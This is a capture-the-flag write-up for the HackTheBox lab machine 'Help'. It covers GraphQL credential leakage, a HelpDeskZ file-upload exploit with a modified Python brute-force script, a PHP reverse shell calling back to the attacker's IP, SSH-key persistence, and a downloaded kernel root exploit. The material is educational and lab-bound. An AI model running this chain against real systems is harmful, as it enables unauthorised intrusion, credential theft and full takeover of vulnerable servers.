





hackthebox Help
Released: 9th March 2019 / Pwned: May 15th 2019 - [+] Solved whilst Active
This is a fun box once you finish it, but not during. The devil is in the details.
1) Nmap
Initial scan:
nmap -sC -sV -O -oN nmap/initial.txt 10.10.10.121
-sC default scripts
-sV service enumeration
-O OS detection
-oN default output
Results:
root@kali:~/ctf/help# mkdir nmap
root@kali:~/ctf/help# nmap -sC -sV -oN nmap/initial.txt 10.10.10.121
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-15 10:02 BST
Nmap scan report for 10.10.10.121
Host is up (0.065s latency).
Not shown: 997 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
| 256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_ 256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3000/tcp open http Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.40 seconds
Analysis:
22/ssh is nice to have running.
80/http is always good too.
3000/http is running Node.js, which seems interesting.
2) 3000/http - JSON
A JSON page. Note that this step isn't actually necessary, you can get a shell without it.
JSON - JavaScript Object Notation - is a format for storing data and is an easy/simple format to retrieve data from (what makes it popular).
If this was a REST API (what JSON normally is(?)) you would query an object (e.g. users) and then choose a field in that database (e.g. 5) or search for a value of a parameter:
https://jsonplaceholder.typicode.com/users/5 - query users object and list the 5th field
https://jsonplaceholder.typicode.com/users?username=Bret - query users object and search username parameter for "Bret"
But trying to query data on 10.10.10.121:3000 just returns errors:
http://10.10.10.121:3000/message
http://10.10.10.121:3000/users
http://10.10.10.121:3000/users?username=Shiv
2a) GraphQL
Instead, this a GraphQL backend (thanks to 1NC39T10N on the htb forums for the hint).
With REST APIs, the client interacts with programmer written code to retrieve JSON data.
With GraphQL, the client interacts with GraphQL, and then GraphQL interacts with the programmer written code to retrieve JSON data.

(Image credits: http://bearcatjs.org/graphql-versus-rest-api/)
This means that requests for data can be simpler, and you can retrieve multiple pieces of data from multiple sources with 1 request (unlike REST which would take multiple).
This is the post I found explaining GraphQL + security.
https://blog.doyensec.com/2018/05/17/graphql-security-overview.html
You can tell this is a GraphQL backend because if we enter an intentionally incorrect query - /graphql?query={} - we receive an error:

Other URLs to test for GraphQL backends are:
/graphql
/graphql/console/
/graphql.php
/graphql.php?debug=1 (debugging mode with additional error reporting, may be left open by developers)
/graphiql
/graphiql.php
2b) What data is retrievable from GraphQL?
The current problem we have is that we don't know what data we can retrieve from the GraphQL endpoint.
doyensec from the blogpost above has a helpful script:
GraphQL_Introspection.py - https://github.com/doyensec/graph-ql
which results in finding a query which leads to a username and password.
root@kali:~/ctf/help/3000http# wget https://raw.githubusercontent.com/doyensec/graph-ql/master/Introspection/GraphQL_Introspection.py
--2019-05-15 11:48:30-- https://raw.githubusercontent.com/doyensec/graph-ql/master/Introspection/GraphQL_Introspection.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.16.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.16.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 47737 (47K) [text/plain]
Saving to: ‘GraphQL_Introspection.py’
GraphQL_Introspection.py 100%[===================================>] 46.62K --.-KB/s in 0.09s
2019-05-15 11:48:31 (503 KB/s) - ‘GraphQL_Introspection.py’ saved [47737/47737]
root@kali:~/ctf/help/3000http# ls
10.10.10.121.json GraphQL_Introspection.py
root@kali:~/ctf/help/3000http# python GraphQL_Introspection.py
[!] Remote GraphQL Endpoint OR a Schema file in JSON format must be specified!
usage: GraphQL_Introspection.py [-h] [-t TARGET] [-f SCHEMA_JSON_FILE]
[-k KEY] [-p PROXY] [-d]
GraphQL Introspection
optional arguments:
-h, --help show this help message and exit
-t TARGET Remote GraphQL Endpoint (https://<Target_IP>/graphql)
-f SCHEMA_JSON_FILE Schema file in JSON format
-k KEY API Authentication Key
-p PROXY IP of web proxy to go through (http://127.0.0.1:8080)
-d Replace known GraphQL arguments types with placeholder
values (useful for Burp Suite)
root@kali:~/ctf/help/3000http# python GraphQL_Introspection.py -t http://10.10.10.121:3000/graphql
[+] Writing Queries Templates
| user
[+] Writing Mutations Templates
[+] Writing Subscriptions Templates
[+] DONE
root@kali:~/ctf/help/3000http# ls
10.10.10.121:3000 10.10.10.121.json GraphQL_Introspection.py
root@kali:~/ctf/help/3000http# cd 10.10.10.121\:3000/
root@kali:~/ctf/help/3000http/10.10.10.121:3000# ls
doc-2019-05-15-1557917343.html mutation query schema-2019-05-15-1557917343.txt subscription
root@kali:~/ctf/help/3000http/10.10.10.121:3000# cd query/
root@kali:~/ctf/help/3000http/10.10.10.121:3000/query# ls
2019-05-15
root@kali:~/ctf/help/3000http/10.10.10.121:3000/query# cd 2019-05-15/
root@kali:~/ctf/help/3000http/10.10.10.121:3000/query/2019-05-15# ls
1557917343
root@kali:~/ctf/help/3000http/10.10.10.121:3000/query/2019-05-15# cd 1557917343/
root@kali:~/ctf/help/3000http/10.10.10.121:3000/query/2019-05-15/1557917343# ls
user.txt
root@kali:~/ctf/help/3000http/10.10.10.121:3000/query/2019-05-15/1557917343# cat user.txt
{"query":"query{user(){username password }}"}
Use the query that GraphQL_Introspection.py found in the URL like this:
http://10.10.10.121:3000/graphql?query={user{username password}}

That password is an md5 hash by the way.
helpme@helpme.com
godhelpmeplz
3) 80/http
Just a default apahce page.
Nikto points to where we need to go - /support.
root@kali:~/ctf/help/80http# nikto -h http://10.10.10.121 -o nikto.txt
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP: 10.10.10.121
+ Target Hostname: 10.10.10.121
+ Target Port: 80
+ Start Time: 2019-05-15 10:05:10 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
...
+ OSVDB-3092: /support/: This might be interesting...
...
---------------------------------------------------------------------------
+ 1 host(s) tested
http://10.10.10.121/support
This is where we use our login credentials (although you don't actually need them). Login to the app.
If you see an app/product, always searchsploit it.
For HelpDeskZ, the submit ticket functionality has some vulnerabilities.
root@kali:~/ctf/help/80tcp# searchsploit helpdeskz
-------------------------------------------------------------
Exploit Title | Path
| (/usr/share/exploitdb/)
-------------------------------------------------------------
HelpDeskZ 1.0.2 - Arbitrary File Upload | exploits/php/webapps/40300.py
HelpDeskZ < 1.0.2 - (Authenticated) SQL Injection / Unauthor | exploits/php/webapps/41200.py
--------------------------------------------------------------
Shellcodes: No Result
40300.py is what we want.
As the exploit explains, you can get remote code execution by uploading a .php file.
The authors of HelpDeskZ thought that uploading a php file would be secure because:
- the filename + current time of the server are hashed together
- and that hash is used for the name of your uploaded file
I guess the intention was that you're never going to find the file name.
As the exploit describes, you can just bruteforce for the uploaded file name by getting the current time of the server and producing the hash yourself and checking for the file.
3a) File is not allowed?
If you try to upload a php file, you're told:

But this isn't strictly true.
Reviewing the source code - https://github.com/evolutionscript/HelpDeskZ-1.0/blob/master/controllers/submit_ticket_controller.php - as far as I can understand from reading the snippet below, the upload doesn't get blocked and there's no modifications made, it just prints the “File is not allowed� message and carries on.
case '2':
$show_step2 = true;
$error_msg = $LANG['FILE_NOT_ALLOWED'];
break;
if(!isset($error_msg) && $settings['ticket_attachment']==1){
$uploaddir = UPLOAD_DIR.'tickets/';
if($_FILES['attachment']['error'] == 0){
$ext = pathinfo($_FILES['attachment']['name'], PATHINFO_EXTENSION);
$filename = md5($_FILES['attachment']['name'].time()).".".$ext;
$fileuploaded[] = array('name' => $_FILES['attachment']['name'], 'enc' => $filename, 'size' => formatBytes($_FILES['attachment']['size']), 'filetype' => $_FILES['attachment']['type']);
$uploadedfile = $uploaddir.$filename;
if (!move_uploaded_file($_FILES['attachment']['tmp_name'], $uploadedfile)) {
$show_step2 = true;
$error_msg = $LANG['ERROR_UPLOADING_A_FILE'];
}else{
$fileverification = verifyAttachment($_FILES['attachment']);
switch($fileverification['msg_code']){
case '1':
$show_step2 = true;
$error_msg = $LANG['INVALID_FILE_EXTENSION'];
break;
case '2':
$show_step2 = true;
$error_msg = $LANG['FILE_NOT_ALLOWED'];
break;
case '3':
$show_step2 = true;
$error_msg = str_replace('%size%',$fileverification['msg_extra'],$LANG['FILE_IS_BIG']);
break;
So whilst the ticket doesn't get created, the php file will still be uploaded.
3b) Find the file upload location
You have to know where your file will get uploaded to, and you have to review the source code for this.
https://github.com/evolutionscript/HelpDeskZ-1.0/blob/master/controllers/submit_ticket_controller.php contains:
UPLOAD_DIR.'tickets/
And https://github.com/evolutionscript/HelpDeskZ-1.0/blob/master/includes/global.php defines UPLOAD_DIR:
define('UPLOAD_DIR', ROOTPATH . 'uploads/');
submit_ticket_controller.php contained include(INCLUDES.'helpdesk.inc.php'); at the top of the file, so I just ctrl+F'd for ‘UPLOAD_DIR’ in every file in the includes directory on github (https://github.com/evolutionscript/HelpDeskZ-1.0/tree/master/includes) until I found it :)
SO, the full URL of the file upload location is http://10.10.10.121/support/uploads/tickets/<file>
3c) Modify the exploit
The exploit on exploitdb is different to the one found in /usr/share/exploitdb, because the version on exploitdb has been updated. The updated version sucks, don't use it. It's full of syntax errors and the currentTime variable for retrieving the current time from the server doesn't work (because of syntax errors).
Instead, copy the exploit from /usr/share/exploitdb to your current directory, and modify the script to import the datetime module - import datetime, include r = requests.get(helpdeszBaseUrl) and correct the synxtax of currentTime. The modified bits of the script should look like this:
import datetime
[......]
helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]
r = requests.get(helpdeskzBaseUrl)
#Gets the current time of the server to prevent timezone errors - DoctorEww
currentTime = int((datetime.datetime.strptime(r.headers['date'], "%a, %d %b %Y %H:%M:%S %Z") - datetime.datetime(1970,1,1)).total_seconds())
for x in range(0, 300)
plaintext = fileName + str(currentTime - x)
[......]
My script looked slightly different because I thoguht the Expiry header of the server with an old date in it strange, so I wrote checks for that time as well. Turns out it was a rabbit hole and a waste of time.
My script:
import hashlib
import time
import sys
import requests
import datetime
print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'
if len(sys.argv) < 3:
print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
sys.exit(1)
helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]
r = requests.get(helpdeskzBaseUrl)
#expires epoch time
expiresTime = 375007920
#get current time of server
currentServerTime = int((datetime.datetime.strptime(r.headers['date'], "%a, %d %b %Y %H:%M:%S %Z") - datetime.datetime(1970,1,1)).total_seconds())
#print out times
print "Current server time: " +str(currentServerTime)
print "Expires header time: " +str(expiresTime)
#check for file using epoch time
print "[+]check epoch time..."
plaintext1 = fileName + str(expiresTime)
md5hash1 = hashlib.md5(plaintext1).hexdigest()
url1 = helpdeskzBaseUrl+md5hash1+'.php'
response = requests.head(url1)
if response.status_code == 200:
print "found! - epoch time"
print url1
sys.exit(0)
else:
print "[-]NOPE, not epoch time"
#check for file using server time
print "[+]check server time minus last 5 minutes..."
for x in range(0, 300):
plaintext2 = fileName + str(currentServerTime - x)
md5hash2 = hashlib.md5(plaintext2).hexdigest()
url2 = helpdeskzBaseUrl+md5hash2+'.php'
response = requests.head(url2)
if response.status_code == 200:
print "found! - server time"
print url2
sys.exit(0)
print "[-]NOPE, not server time"
3d) Get a shell
Put everything together and get a shell, finally.
Prep the shell:
root@kali:~/ctf/help# cp /usr/share/webshells/php/php-reverse-shell.php .
root@kali:~/ctf/help# mv php-reverse-shell.php monkey.php
root@kali:~/ctf/help# nano monkey.php
...
$VERSION = "1.0";
$ip = '10.10.13.79'; // CHANGE THIS
$port = 4441; // CHANGE THIS
$chunk_size = 1400;
...
ctrl+O to save the file in nano.
Submit a ticket and upload the file.

Run the script to find the name of our file:
root@kali:~/ctf/help/exploit# python 40300updated.py http://10.10.10.121/support/uploads/tickets/ monkey.php
Helpdeskz v1.0.2 - Unauthenticated shell upload exploit
Current server time: 1557938496
Expires header time: 375007920
[+]check epoch time...
[-]NOPE, not epoch time
[+]check server time minus last 5 minutes...
found! - server time
http://10.10.10.121/support/uploads/tickets/0543943051acbed7481441df8e40486f.php
Start a listener to receive the shell:
root@kali:~/ctf/help# nc -lvnp 4441
listening on [any] 4441 ...
Navigate to the url your script just found and you should get a callback on your listener:
...
listening on [any] 4441 ...
connect to [10.10.13.79] from (UNKNOWN) [10.10.10.121] 44092
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
09:42:10 up 5 min, 0 users, load average: 0.12, 0.24, 0.12
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)
/bin/sh: 0: can't access tty; job control turned off
$ pwd
/
4) php shell to ssh shell
I like to elevate to a fully functional/more reliable shell if I can, and ssh was running so this was an easy opportunity.
Generate an ssh key pair you don't have one already, and start the ssh service on your kali machine:
root@kali:~# ssh-keygen -t rsa -b 4096
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa):
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /root/.ssh/id_rsa.
Your public key has been saved in /root/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:C4J3JBqH+VxROjOASyX0MX0UHyJLl/lk+w6Wez+NXOY root@kali
The keys randomart image is:
+---[RSA 4096]----+
| .oo=.+o*+. |
| o= =.*+oo. |
| .+.+ O. +.. |
| .B + + o |
| o = o S o |
| . o . .+ . o|
| .. + . * |
| . o + E|
| . ... |
+----[SHA256]-----+
root@kali:~# cd ~/.ssh
root@kali:~/.ssh# ls -alh
id_rsa id_rsa.pub known_hosts
root@kali:~/.ssh# cat id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQDubnsite6+BZra+1yAChYHV4ar8P0vkke1IWlZLwGP85bThoKe+pICmD15nweBXA4Rp5UMfJLBzBtXMN+QhVXBvkzAzTHeOIFAxBY/VE6FSBOTGYs+Q77Hnwdt7gIqqmXmUTpOwM0bPxnJTAh6L7lP9D+k+PK060BwmAmiPRHLyKa0KTbIRilRQZB4G8Fb9DOAweXr+r8d0Bw7/rUD3tUfSO2qcyuh2D7yQbCrwj1orYcj9r1ApYdPAZtqDmKknMtVGFjUVBIoti9iVZ6DD75lfRHclyqChgKDt2d7D0nDfTED2PaaoEG6vmGfHp51cNA21Fdh71mR1gE5T9V2IoCFujN7Ls7WSHn+K+q0s4m2VMgMYe1GT9+dxKIkYrqIs72m5Qt2GA8CarPatG2ZQ109/KZc9p9so7lpTJlxbiQg58CkwpFIBP0uXj9CHMPnG7D5Cr3eaz8sU3egyflT4YaXx1PB2IdrACorukDtgDpxKWRVFduyf7qLhR9Yjsr358cgaBRh89V+RImmhVrioQOx9brl70NbNO/jgav7ACo8/P0wk2WzDGB6W05y+pagAAhu4zdsksXyB/VImOZ4Sx9dzJTyBUnjIWIbKDmS+m+H28Vkm2rzLYefSxPNMBtuMquvCuZV15mHMx97MDRF/qxeNiKUpFG2kX0FF7eYCI2BVw== root@kali
root@kali:~/.ssh# service ssh start
root@kali:~/.ssh# service ssh status
� ssh.service - OpenBSD Secure Shell server
Loaded: loaded (/lib/systemd/system/ssh.service; disabled; vendor preset: disabled)
Active: active (running) since Wed 2019-05-15 18:55:36 BST; 3s ago
Docs: man:sshd(8)
man:sshd_config(5)
Process: 19010 ExecStartPre=/usr/sbin/sshd -t (code=exited, status=0/SUCCESS)
Main PID: 19011 (sshd)
Tasks: 1 (limit: 4915)
Memory: 1.6M
CGroup: /system.slice/ssh.service
└─19011 /usr/sbin/sshd -D
May 15 18:55:36 kali systemd[1]: Starting OpenBSD Secure Shell server...
May 15 18:55:36 kali sshd[19011]: Server listening on 0.0.0.0 port 22.
May 15 18:55:36 kali sshd[19011]: Server listening on :: port 22.
May 15 18:55:36 kali systemd[1]: Started OpenBSD Secure Shell server.
Create the .ssh directory on the php shell you just popped and echo your attacking machine's ssh public key - the contents of id_rsa.pub - into authorized_keys file in /home/help/.ssh/authorized_keys and set the file permissions properly:
$ cd /home/help
$ mkdir .ssh
$ cd .ssh
$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQDubnsite6+BZra+1yAChYHV4ar8P0vkke1IWlZLwGP85bThoKe+pICmD15nweBXA4Rp5UMfJLBzBtXMN+QhVXBvkzAzTHeOIFAxBY/VE6FSBOTGYs+Q77Hnwdt7gIqqmXmUTpOwM0bPxnJTAh6L7lP9D+k+PK060BwmAmiPRHLyKa0KTbIRilRQZB4G8Fb9DOAweXr+r8d0Bw7/rUD3tUfSO2qcyuh2D7yQbCrwj1orYcj9r1ApYdPAZtqDmKknMtVGFjUVBIoti9iVZ6DD75lfRHclyqChgKDt2d7D0nDfTED2PaaoEG6vmGfHp51cNA21Fdh71mR1gE5T9V2IoCFujN7Ls7WSHn+K+q0s4m2VMgMYe1GT9+dxKIkYrqIs72m5Qt2GA8CarPatG2ZQ109/KZc9p9so7lpTJlxbiQg58CkwpFIBP0uXj9CHMPnG7D5Cr3eaz8sU3egyflT4YaXx1PB2IdrACorukDtgDpxKWRVFduyf7qLhR9Yjsr358cgaBRh89V+RImmhVrioQOx9brl70NbNO/jgav7ACo8/P0wk2WzDGB6W05y+pagAAhu4zdsksXyB/VImOZ4Sx9dzJTyBUnjIWIbKDmS+m+H28Vkm2rzLYefSxPNMBtuMquvCuZV15mHMx97MDRF/qxeNiKUpFG2kX0FF7eYCI2BVw== root@kali" > authorized_keys
$ chmod 600 authorized_keys
$ cd ..
$ chmod 700 .ssh
Now ssh as user help using your private key and you'll have a fully functional ssh shell:
root@kali:~/.ssh# ssh -i ~/.ssh/id_rsa help@10.10.10.121
Welcome to Ubuntu 16.04.5 LTS (GNU/Linux 4.4.0-116-generic x86_64)
* Documentation: https://help.ubuntu.com
* Management: https://landscape.canonical.com
* Support: https://ubuntu.com/advantage
You have new mail.
Last login: Fri Jan 11 06:18:50 2019
help@help:~$ cat user.txt
[flag redacted :)]
5) Kernel privesc
Gather some info:
help@help:~$ cat /etc/issue
Ubuntu 16.04.5 LTS \n \l
help@help:~$ cat /etc/*-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.5 LTS"
NAME="Ubuntu"
VERSION="16.04.5 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.5 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial
help@help:~$ uname -mrs
Linux 4.4.0-116-generic x86_64
Any available exploits for the kernel version?
root@kali:~/ctf/help/exploit# searchsploit Linux 4.4.0-116
--------------------------------------------------------------------
Exploit Title | Path
| (/usr/share/exploitdb/)
--------------------------------------------------------------------
Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalat | exploits/linux/local/44298.c
--------------------------------------------------------------------
Get the exploit and serve it to the target:
root@kali:~/ctf/help/exploit# cp /usr/share/exploitdb/exploits/linux/local/44298.c .
root@kali:~/ctf/help/exploit# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
Download the exploit onto your target machine and run it!
help@help:~$ mkdir wavey
help@help:~$ cd wavey
help@help:~/wavey$ wget http://10.10.13.79:8000/44298.c
--2019-05-15 11:26:01-- http://10.10.13.79:8000/44298.c
Connecting to 10.10.13.79:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6021 (5.9K) [text/plain]
Saving to: ‘44298.c’
44298.c 100%[========================================>] 5.88K --.-KB/s in 0.02s
2019-05-15 11:26:01 (374 KB/s) - ‘44298.c’ saved [6021/6021]
help@help:~/wavey$ ls
44298.c
help@help:~/wavey$ gcc 44298.c -o makewave
help@help:~/wavey$ ./makewave
task_struct = ffff88003be7aa00
uidptr = ffff88003b3806c4
spawning root shell
root@help:~/wavey# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare),1000(help)
root@help:~# cd /root
root@help:/root# ls
root.txt
root@help:/root# cat root.txt
[flag redacted :)]
Enumerating the box it look like there were lots of other potential methods to get root/avenues to take - probably worth exploring.